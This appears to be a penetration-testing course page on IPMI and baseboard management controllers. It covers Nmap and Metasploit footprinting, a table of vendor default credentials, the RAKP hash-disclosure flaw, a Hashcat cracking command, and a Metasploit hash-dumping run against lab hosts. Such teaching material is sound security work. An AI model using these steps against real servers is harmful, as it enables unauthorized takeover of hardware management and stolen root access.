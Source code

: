
[Intelligent Platform Management Interface](https://www.thomas-krenn.com/en/wiki/IPMI_Basics) (`IPMI`) is a set of standardized specifications for hardware-based host management systems used for system management and monitoring. It acts as an autonomous subsystem and works independently of the host's BIOS, CPU, firmware, and underlying operating system. IPMI provides sysadmins with the ability to manage and monitor systems even if they are powered off or in an unresponsive state. It operates using a direct network connection to the system's hardware and does not require access to the operating system via a login shell. IPMI can also be used for remote upgrades to systems without requiring physical access to the target host. IPMI is typically used in three ways:

- Before the OS has booted to modify BIOS settings
- When the host is fully powered down
- Access to a host after a system failure

When not being used for these tasks, IPMI can monitor a range of different things such as system temperature, voltage, fan status, and power supplies. It can also be used for querying inventory information, reviewing hardware logs, and alerting using SNMP. The host system can be powered off, but the IPMI module requires a power source and a LAN connection to work correctly.

The IPMI protocol was first published by Intel in 1998 and is now supported by over 200 system vendors, including Cisco, Dell, HP, Supermicro, Intel, and more. Systems using IPMI version 2.0 can be administered via serial over LAN, giving sysadmins the ability to view serial console output in band. To function, IPMI requires the following components:

- Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
- Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
- Intelligent Platform Management Bus (IPMB) - extends the BMC
- IPMI Memory - stores things such as the system event log, repository store data, and more
- Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus

---

## Footprinting the Service

IPMI communicates over port 623 UDP. Systems that use the IPMI protocol are called Baseboard Management Controllers (BMCs). BMCs are typically implemented as embedded ARM systems running Linux, and connected directly to the host's motherboard. BMCs are built into many motherboards but can also be added to a system as a PCI card. Most servers either come with a BMC or support adding a BMC. The most common BMCs we often see during internal penetration tests are HP iLO, Dell DRAC, and Supermicro IPMI. If we can access a BMC during an assessment, we would gain full access to the host motherboard and be able to monitor, reboot, power off, or even reinstall the host operating system. Gaining access to a BMC is nearly equivalent to physical access to a system. Many BMCs (including HP iLO, Dell DRAC, and Supermicro IPMI) expose a web-based management console, some sort of command-line remote access protocol such as Telnet or SSH, and the port 623 UDP, which, again, is for the IPMI network protocol. Below is a sample Nmap scan using the Nmap [ipmi-version](https://nmap.org/nsedoc/scripts/ipmi-version.html) NSE script to footprint the service.

#### Nmap

  Nmap

```shell-session
0xNecr0@htb[/htb]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

Here, we can see that the IPMI protocol is indeed listening on port 623, and Nmap has fingerprinted version 2.0 of the protocol. We can also use the Metasploit scanner module [IPMI Information Discovery (auxiliary/scanner/ipmi/ipmi_version)](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version/).

#### Metasploit Version Scan

  Metasploit Version Scan

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

During internal penetration tests, we often find BMCs where the administrators have not changed the default password. Some unique default passwords to keep in our cheatsheets include:

|Product|Username|Password|
|---|---|---|
|Dell iDRAC|root|calvin|
|HP iLO|Administrator|randomized 8-character string consisting of numbers and uppercase letters|
|Supermicro IPMI|ADMIN|ADMIN|

It is also essential to try out known default passwords for ANY services that we discover, as these are often left unchanged and can lead to quick wins. When dealing with BMCs, these default passwords may gain us access to the web console or even command line access via SSH or Telnet.

---

## Dangerous Settings

If default credentials do not work to access a BMC, we can turn to a [flaw](http://fish2.com/ipmi/remote-pw-cracking.html) in the RAKP protocol in IPMI 2.0. During the authentication process, the server sends a salted SHA1 or MD5 hash of the user's password to the client before authentication takes place. This can be leveraged to obtain the password hash for ANY valid user account on the BMC. These password hashes can then be cracked offline using a dictionary attack using `Hashcat` mode `7300`. In the event of an HP iLO using a factory default password, we can use this Hashcat mask attack command `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u` which tries all combinations of upper case letters and numbers for an eight-character password.

There is no direct "fix" to this issue because the flaw is a critical component of the IPMI specification. Clients can opt for very long, difficult to crack passwords or implement network segmentation rules to restrict the direct access to the BMCs. It is important to not overlook IPMI during internal penetration tests (we see it during most assessments) because not only can we often gain access to the BMC web console, which is a high-risk finding, but we have seen environments where a unique (but crackable) password is set that is later re-used across other systems. On one such penetration test, we obtained an IPMI hash, cracked it offline using Hashcat, and were able to SSH into many critical servers in the environment as the root user and gain access to web management consoles for various network monitoring tools.

To retrieve IPMI hashes, we can use the Metasploit [IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/) module.

#### Metasploit Dumping Hashes

  Metasploit Dumping Hashes

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Here we can see that we have successfully obtained the password hash for the user `ADMIN`, and the tool was able to quickly crack it to reveal what appears to be a default password `ADMIN`. From here, we could attempt to log in to the BMC, or, if the password were something more unique, check for password re-use on other systems. IPMI is very common in network environments since sysadmins need to be able to access servers remotely in the event of an outage or perform certain maintenance tasks that they would traditionally have had to be physically in front of the server to complete. This ease of administration comes with the risk of exposing password hashes to anyone on the network and can lead to unauthorized access, system disruption, and even remote code execution. Checking for IPMI should be part of our internal penetration test playbook for any environment we find ourselves assessing.